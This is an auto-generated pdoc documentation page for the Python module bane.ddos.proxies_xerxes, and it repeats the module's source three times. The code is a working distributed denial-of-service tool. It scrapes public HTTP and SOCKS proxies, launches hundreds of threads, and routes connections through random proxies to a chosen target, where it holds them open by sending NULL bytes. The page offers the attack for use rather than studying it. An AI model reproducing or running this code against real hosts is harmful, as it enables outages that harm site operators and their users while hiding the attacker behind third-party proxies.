 <body>
<main>
<article id="content">
<header>
<h1 class="title">Module <code>bane.ddos.proxies_xerxes</code></h1>
</header>
<section id="section-intro">
<details class="source">
<summary>
<span>Expand source code</span>
</summary>
<pre><code class="python">from bane.ddos.utils import *

class prox_xerxes(DDoS_Class):
    def __init__(
        self,
        u,
        scraping_timeout=15,
        p=80,
        threads_daemon=True,
        threads=700,
        timeout=5,
        http_list=None,
        socks4_list=None,
        socks5_list=None,
        duration=60,
        logs=False,
    ):
        self.httplist = http_list
        if not self.httplist and self.httplist != []:
            self.httplist = proxyscrape(timeout=scraping_timeout)
        self.socks4list = socks4_list
        if not self.socks4list and self.socks4list != []:
            self.socks4list = proxyscrape(protocol=&#39;socks4&#39;,timeout=scraping_timeout)
        self.socks5list = socks5_list
        if not self.socks5list and self.socks5list != []:
            self.socks5list = proxyscrape(protocol=&#39;socks5&#39;,timeout=scraping_timeout)
        self.stop = False
        self.counter = 0
        self.start = time.time()
        self.target = u
        self.duration = duration
        self.port = p
        self.timeout = timeout
        self.logs = logs
        self.id_key = 0
        for x in range(threads):
            try:
                t = threading.Thread(target=self.attack)
                t.daemon = threads_daemon
                t.start()
                self.id_key += 1
            except:
                pass

    def attack(self):
        try:
            x = self.id_key
            time.sleep(1)
            while True:
                if (
                    int(time.time() - self.start) &gt;= self.duration
                ):  # this is a safety mechanism so the attack won&#39;t run forever
                    break
                if self.stop == True:
                    break
                try:
                    bot_type = []
                    if len(self.httplist) &gt; 0:
                        bot_type.append(&#34;h&#34;)
                    if len(self.socks4list) &gt; 0:
                        bot_type.append(&#34;s4&#34;)
                    if len(self.socks5list) &gt; 0:
                        bot_type.append(&#34;s5&#34;)
                    z = random.choice(bot_type)
                    if z == &#34;h&#34;:
                        line = random.choice(self.httplist)
                    elif z == &#34;s4&#34;:
                        line = random.choice(self.socks4list)
                    elif z == &#34;s5&#34;:
                        line = random.choice(self.socks5list)
                    ipp = line.split(&#34;:&#34;)[0].split(&#34;=&#34;)[0]
                    pp = line.split(&#34;:&#34;)[1].split(&#34;=&#34;)[0]
                    s = socks.socksocket()
                    if z == &#34;h&#34;:
                        s.setproxy(socks.PROXY_TYPE_HTTP, str(ipp), int(pp), True)
                    elif z == &#34;s4&#34;:
                        s.setproxy(socks.PROXY_TYPE_SOCKS4, str(ipp), int(pp), True)
                    elif z == &#34;s5&#34;:
                        s.setproxy(socks.PROXY_TYPE_SOCKS5, str(ipp), int(pp), True)
                    if z == &#34;h&#34;:
                        s.settimeout(self.timeout)
                    s.connect((self.target, self.port))
                    self.counter += 1
                    while True:
                        if (
                            int(time.time() - self.start) &gt;= self.duration
                        ):  # this is a safety mechanism so the attack won&#39;t run forever
                            break
                        if self.stop == True:
                            break
                        try:
                            s.send(&#34;\x00&#34;.encode(&#34;utf-8&#34;))  # send NULL character
                            if self.logs == True:
                                sys.stdout.write(
                                    &#34;\r[{}: Voly sent--&gt;{}]     &#34;.format(x, ipp)
                                )
                                sys.stdout.flush()
                        except:
                            break
                        time.sleep(0.2)
                except:
                    pass
                self.counter -= 1
                time.sleep(0.3)
            self.kill()
        except:
            pass</code></pre>
</details>
</section>
<section>
</section>
<section>
</section>
<section>
</section>
<section>
<h2 class="section-title" id="header-classes">Classes</h2>
<dl>
<dt id="bane.ddos.proxies_xerxes.prox_xerxes"><code class="flex name class">
<span>class <span class="ident">prox_xerxes</span></span>
<span>(</span><span>u, scraping_timeout=15, p=80, threads_daemon=True, threads=700, timeout=5, http_list=None, socks4_list=None, socks5_list=None, duration=60, logs=False)</span>
</code></dt>
<dd>
<div class="desc"></div>
<details class="source">
<summary>
<span>Expand source code</span>
</summary>
<pre><code class="python">class prox_xerxes(DDoS_Class):
    def __init__(
        self,
        u,
        scraping_timeout=15,
        p=80,
        threads_daemon=True,
        threads=700,
        timeout=5,
        http_list=None,
        socks4_list=None,
        socks5_list=None,
        duration=60,
        logs=False,
    ):
        self.httplist = http_list
        if not self.httplist and self.httplist != []:
            self.httplist = proxyscrape(timeout=scraping_timeout)
        self.socks4list = socks4_list
        if not self.socks4list and self.socks4list != []:
            self.socks4list = proxyscrape(protocol=&#39;socks4&#39;,timeout=scraping_timeout)
        self.socks5list = socks5_list
        if not self.socks5list and self.socks5list != []:
            self.socks5list = proxyscrape(protocol=&#39;socks5&#39;,timeout=scraping_timeout)
        self.stop = False
        self.counter = 0
        self.start = time.time()
        self.target = u
        self.duration = duration
        self.port = p
        self.timeout = timeout
        self.logs = logs
        self.id_key = 0
        for x in range(threads):
            try:
                t = threading.Thread(target=self.attack)
                t.daemon = threads_daemon
                t.start()
                self.id_key += 1
            except:
                pass

    def attack(self):
        try:
            x = self.id_key
            time.sleep(1)
            while True:
                if (
                    int(time.time() - self.start) &gt;= self.duration
                ):  # this is a safety mechanism so the attack won&#39;t run forever
                    break
                if self.stop == True:
                    break
                try:
                    bot_type = []
                    if len(self.httplist) &gt; 0:
                        bot_type.append(&#34;h&#34;)
                    if len(self.socks4list) &gt; 0:
                        bot_type.append(&#34;s4&#34;)
                    if len(self.socks5list) &gt; 0:
                        bot_type.append(&#34;s5&#34;)
                    z = random.choice(bot_type)
                    if z == &#34;h&#34;:
                        line = random.choice(self.httplist)
                    elif z == &#34;s4&#34;:
                        line = random.choice(self.socks4list)
                    elif z == &#34;s5&#34;:
                        line = random.choice(self.socks5list)
                    ipp = line.split(&#34;:&#34;)[0].split(&#34;=&#34;)[0]
                    pp = line.split(&#34;:&#34;)[1].split(&#34;=&#34;)[0]
                    s = socks.socksocket()
                    if z == &#34;h&#34;:
                        s.setproxy(socks.PROXY_TYPE_HTTP, str(ipp), int(pp), True)
                    elif z == &#34;s4&#34;:
                        s.setproxy(socks.PROXY_TYPE_SOCKS4, str(ipp), int(pp), True)
                    elif z == &#34;s5&#34;:
                        s.setproxy(socks.PROXY_TYPE_SOCKS5, str(ipp), int(pp), True)
                    if z == &#34;h&#34;:
                        s.settimeout(self.timeout)
                    s.connect((self.target, self.port))
                    self.counter += 1
                    while True:
                        if (
                            int(time.time() - self.start) &gt;= self.duration
                        ):  # this is a safety mechanism so the attack won&#39;t run forever
                            break
                        if self.stop == True:
                            break
                        try:
                            s.send(&#34;\x00&#34;.encode(&#34;utf-8&#34;))  # send NULL character
                            if self.logs == True:
                                sys.stdout.write(
                                    &#34;\r[{}: Voly sent--&gt;{}]     &#34;.format(x, ipp)
                                )
                                sys.stdout.flush()
                        except:
                            break
                        time.sleep(0.2)
                except:
                    pass
                self.counter -= 1
                time.sleep(0.3)
            self.kill()
        except:
            pass</code></pre>
</details>
<h3>Ancestors</h3>
<ul class="hlist">
<li><a title="bane.ddos.utils.DDoS_Class" href="utils.html#bane.ddos.utils.DDoS_Class">DDoS_Class</a></li>
</ul>
<h3>Methods</h3>
<dl>
<dt id="bane.ddos.proxies_xerxes.prox_xerxes.attack"><code class="name flex">
<span>def <span class="ident">attack</span></span>(<span>self)</span>
</code></dt>
<dd>
<div class="desc"></div>
<details class="source">
<summary>
<span>Expand source code</span>
</summary>
<pre><code class="python">def attack(self):
    try:
        x = self.id_key
        time.sleep(1)
        while True:
            if (
                int(time.time() - self.start) &gt;= self.duration
            ):  # this is a safety mechanism so the attack won&#39;t run forever
                break
            if self.stop == True:
                break
            try:
                bot_type = []
                if len(self.httplist) &gt; 0:
                    bot_type.append(&#34;h&#34;)
                if len(self.socks4list) &gt; 0:
                    bot_type.append(&#34;s4&#34;)
                if len(self.socks5list) &gt; 0:
                    bot_type.append(&#34;s5&#34;)
                z = random.choice(bot_type)
                if z == &#34;h&#34;:
                    line = random.choice(self.httplist)
                elif z == &#34;s4&#34;:
                    line = random.choice(self.socks4list)
                elif z == &#34;s5&#34;:
                    line = random.choice(self.socks5list)
                ipp = line.split(&#34;:&#34;)[0].split(&#34;=&#34;)[0]
                pp = line.split(&#34;:&#34;)[1].split(&#34;=&#34;)[0]
                s = socks.socksocket()
                if z == &#34;h&#34;:
                    s.setproxy(socks.PROXY_TYPE_HTTP, str(ipp), int(pp), True)
                elif z == &#34;s4&#34;:
                    s.setproxy(socks.PROXY_TYPE_SOCKS4, str(ipp), int(pp), True)
                elif z == &#34;s5&#34;:
                    s.setproxy(socks.PROXY_TYPE_SOCKS5, str(ipp), int(pp), True)
                if z == &#34;h&#34;:
                    s.settimeout(self.timeout)
                s.connect((self.target, self.port))
                self.counter += 1
                while True:
                    if (
                        int(time.time() - self.start) &gt;= self.duration
                    ):  # this is a safety mechanism so the attack won&#39;t run forever
                        break
                    if self.stop == True:
                        break
                    try:
                        s.send(&#34;\x00&#34;.encode(&#34;utf-8&#34;))  # send NULL character
                        if self.logs == True:
                            sys.stdout.write(
                                &#34;\r[{}: Voly sent--&gt;{}]     &#34;.format(x, ipp)
                            )
                            sys.stdout.flush()
                    except:
                        break
                    time.sleep(0.2)
            except:
                pass
            self.counter -= 1
            time.sleep(0.3)
        self.kill()
    except:
        pass</code></pre>
</details>
</dd>
</dl>
</dd>
</dl>
</section>
</article>
<nav id="sidebar">
<h1>Index</h1>
<div class="toc">
<ul></ul>
</div>
<ul id="index">
<li><h3>Super-module</h3>
<ul>
<li><code><a title="bane.ddos" href="index.md">bane.ddos</a></code></li>
</ul>
</li>
<li><h3><a href="#header-classes">Classes</a></h3>
<ul>
<li>
<h4><code><a title="bane.ddos.proxies_xerxes.prox_xerxes" href="#bane.ddos.proxies_xerxes.prox_xerxes">prox_xerxes</a></code></h4>
<ul class="">
<li><code><a title="bane.ddos.proxies_xerxes.prox_xerxes.attack" href="#bane.ddos.proxies_xerxes.prox_xerxes.attack">attack</a></code></li>
</ul>
</li>
</ul>
</li>
</ul>
</nav>
</main>
<footer id="footer">
<p>Generated by <a href="https://pdoc3.github.io/pdoc" title="pdoc: Python API documentation generator"><cite>pdoc</cite> 0.10.0</a>.</p>
</footer>
</body>
</html>